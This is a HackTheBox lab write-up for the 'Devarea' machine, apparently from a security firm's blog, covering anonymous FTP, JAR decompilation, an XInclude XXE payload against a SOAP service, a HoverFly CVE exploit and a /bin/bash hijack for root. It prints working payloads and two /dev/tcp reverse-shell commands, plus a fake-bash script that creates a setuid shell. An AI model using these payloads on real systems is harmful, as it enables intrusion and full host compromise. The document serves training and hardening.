


# Devarea

**By Stager** | FashilHack

---

## What is this machine

Devarea is a medium Linux box on HackTheBox. It chains together a lot of moving parts — FTP, a SOAP web service, XXE file read, a CVE exploit, and a creative privilege escalation through binary hijacking. Nothing here is straightforward and every step requires you to think, not just run tools.

The box taught me that enumeration doesn't stop at port 80. Services on non-standard ports matter just as much, and sometimes the real entry point is hidden inside a JAR file sitting on an FTP server.

---

## Target

```
IP:  10.129.244.208
Domain: devarea.htb
OS:  Linux (Ubuntu)
```

---

## Step 1 — Nmap Scan

```bash
nmap -sV -sC -p- -T4 devarea.htb
```

Ports found:

| Port | Service | Detail |
|---|---|---|
| 21 | FTP | Anonymous login enabled |
| 22 | SSH | OpenSSH |
| 80 | HTTP | Apache — redirects to devarea.htb |
| 8080 | HTTP | Jetty SOAP web service |
| 8500 | HTTP | Unknown |
| 8888 | HTTP | HoverFly — API simulation tool |

Added the IP to `/etc/hosts`:
```bash
echo "<ip> devarea.htb" >> /etc/hosts
```

Port 80 had a website with employee names listed. I used `UsernameGenerator.py` to generate username variations from first and last names. Password spraying via Burp Intruder on port 8888 returned nothing.

Port 21 was the real start.



---

## Step 2 — Anonymous FTP → employee-service.jar

```bash
ftp devarea.htb
# name: anonymous
# password: (blank)
```

Found one file: `employee-service.jar`. Downloaded it.

```bash
ftp> get employee-service.jar
```


---

## Step 3 — JAR Decompilation → SOAP Endpoint Discovery

Extracted the JAR:

```bash
unzip employee-service.jar -d employee-service
```

Read the manifest to find the main class:

```bash
cat META-INF/MANIFEST.MF
# Main-Class: htb.devarea.ServerStarter
```

Decompiled the custom classes:

```bash
cd employee-service
javap -c htb/devarea/ServerStarter.class
javap -c htb/devarea/EmployeeServiceImpl.class
javap -c htb/devarea/EmployeeService.class
javap -c htb/devarea/Report.class
```

**Key findings from ServerStarter:**
- Service running at: `http://devarea.htb:8080/employeeservice`
- WSDL at: `http://devarea.htb:8080/employeeservice?wsdl`

**From Report.class** the service accepts:
- `employeeName` → string
- `department` → string
- `content` → string
- `confidential` → boolean


---

## Step 4 — SOAP Interaction → Confirm Input Reflection

Grabbed the WSDL to confirm the service structure:

```bash
curl http://devarea.htb:8080/employeeservice?wsdl
```

The WSDL is basically the API manual — it showed one callable function: `submitReport`, with the fields from the decompiled class.

Sent a test SOAP request:

```bash
curl -s -X POST http://devarea.htb:8080/employeeservice \
  -H "Content-Type: text/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://devarea.htb/">
  <soapenv:Body>
    <tns:submitReport>
      <arg0>
        <employeeName>test</employeeName>
        <department>IT</department>
        <content>hello</content>
        <confidential>false</confidential>
      </arg0>
    </tns:submitReport>
  </soapenv:Body>
</soapenv:Envelope>'
```

Response came back reflecting the input:
```
Report received from test. Department: IT. Content: hello
```

User input going into a SOAP XML parser — classic XXE territory.


---

## Step 5 — XXE via SOAP → File Read → HoverFly Credentials

Standard DTD-based XXE was blocked by the parser. Used XInclude inside the content field instead which bypassed the restriction:

```bash
curl -s -X POST http://devarea.htb:8080/employeeservice \
  -H "Content-Type: text/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://devarea.htb/">
  <soapenv:Body>
    <tns:submitReport>
      <arg0>
        <employeeName>test</employeeName>
        <department>IT</department>
        <content xmlns:xi="http://www.w3.org/2001/XInclude">
          <xi:include href="file:///etc/systemd/system/hoverfly.service" parse="text"/>
        </content>
        <confidential>false</confidential>
      </arg0>
    </tns:submitReport>
  </soapenv:Body>
</soapenv:Envelope>'
```

Response came back with base64-encoded content. Decoded it:

```bash
echo "<base64 string>" | base64 -d
```

The decoded output was the HoverFly systemd service file:

```
ExecStart=/opt/HoverFly/hoverfly -add -username admin -password O7IJ27MyyXiU -listen-on-host 0.0.0.0
```

Credentials: `admin:O7IJ27MyyXiU`


---

## Step 6 — HoverFly CVE-2025-54123 → Shell as dev_ryan

Logged into HoverFly on port 8888 with the recovered credentials. Checked the version — **v1.11.3**.

Quick research on `hoverfly exploit v1.11.3` found CVE-2025-54123 — an authenticated RCE via the middleware API.

Set up listener:

```bash
nc -lvnp 4443
```

Ran the exploit — using `sh` not `bash` in the payload (important for the next step):

```bash
./CVE-2025-54123.sh -t http://devarea.htb:8888 \
  -u admin -p O7IJ27MyyXiU \
  -c "bash -c 'sh -i >& /dev/tcp/<tun0-ip>/4443 0>&1'"
```

Shell came back as `dev_ryan`. Upgraded it:

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Got the user flag:

```bash
cat /home/dev_ryan/user.txt
```


---

## Step 7 — Privilege Escalation: Binary Hijacking → root

### Finding the path

```bash
sudo -l
```

Output:
```
(root) NOPASSWD: /opt/syswatch/syswatch.sh
```

Dev_ryan can run syswatch as root with no password. The script itself was not readable but when triggered it internally calls `/bin/bash`.

Checked `/bin/bash` permissions:

```bash
ls -la /bin/bash
```

It was **world-writable**. Any user on the system could replace it.

### Understanding the attack

This is called **binary hijacking**. The logic is:

```
root runs syswatch.sh
    ↓
syswatch.sh calls /bin/bash
    ↓
we replaced /bin/bash with our fake script
    ↓
root executes our fake script instead
    ↓
we get root
```

### Why sh and not bash matters here

If your shell session is running `/bin/bash` you cannot overwrite it — the OS locks the file while it's in use and returns `Text file busy`. That's why the reverse shell payload used `sh` instead of `bash`. The session runs under `sh` so `/bin/bash` is free to be replaced.

### Why the shebang matters

The fake script's shebang line must point to `/tmp/bash.bak` not `/bin/bash`. If it pointed to `/bin/bash` it would call itself and create an infinite loop — which is exactly what caused the `Too many levels of symbolic links` error earlier.

### The steps

**Back up the real bash first:**
```bash
cp /bin/bash /tmp/bash.bak
```

**Create the fake bash script:**
```bash
cat > /tmp/fakebash.sh << 'EOF'
#!/tmp/bash.bak
cp /tmp/bash.bak /tmp/rootbash
chmod +s /tmp/rootbash
/tmp/bash.bak -c 'bash -i >& /dev/tcp/<tun0-ip>/4441 0>&1'
exec /tmp/bash.bak "$@"
EOF
chmod +x /tmp/fakebash.sh
```

**Replace /bin/bash:**
```bash
cp /tmp/fakebash.sh /bin/bash
```

**Set up listener:**
```bash
nc -lvnp 4441
```

**Trigger root execution:**
```bash
sudo /opt/syswatch/syswatch.sh --version
```

Root ran the script. Our fake bash executed. Reverse shell came back as root.

```bash
whoami
# root
cat /root/root.txt
```




---

## The Full Chain

```
Nmap → 6 ports including FTP, SOAP on 8080, HoverFly on 8888
  ↓
Anonymous FTP → employee-service.jar
  ↓
JAR decompiled → SOAP endpoint on port 8080 discovered
  ↓
WSDL enumerated → submitReport function identified
  ↓
XInclude XXE in content field → reads hoverfly.service
  ↓
Base64 decoded → admin:O7IJ27MyyXiU
  ↓
HoverFly v1.11.3 → CVE-2025-54123 RCE → shell as dev_ryan
  ↓
user.txt
  ↓
sudo -l → syswatch runs as root, calls /bin/bash
  ↓
/bin/bash is world-writable → binary hijacking
  ↓
Replace /bin/bash with fake script → root triggers it
  ↓
Reverse shell as root
  ↓
root.txt
```

---

## What I learned from this one

**Non-standard ports are not optional.** The entire attack started from a JAR on FTP and a SOAP service on 8080. Stopping at port 80 would have found nothing.

**WSDL is a roadmap.** It tells you exactly what the service accepts — fields, types, structure. Read it before sending anything blind.

**DTD-based XXE being blocked doesn't mean XXE is dead.** XInclude is a completely different code path. When one technique is blocked always try alternatives before giving up.

**Binary hijacking requires the right shell.** If your session runs `/bin/bash` the OS locks the file. Running the shell as `sh` frees the lock so the copy succeeds. One small detail that changes everything.

**The shebang in the fake script is critical.** Pointing it to `/bin/bash` creates an infinite loop. Pointing it to `/tmp/bash.bak` breaks the loop and lets root execution complete cleanly.

**World-writable system binaries in a root execution chain is full compromise.** One writable binary is enough. That's why file permissions matter so much in hardening.

---

_Stager — FashilHack — Simulating Attacks, Securing Businesses._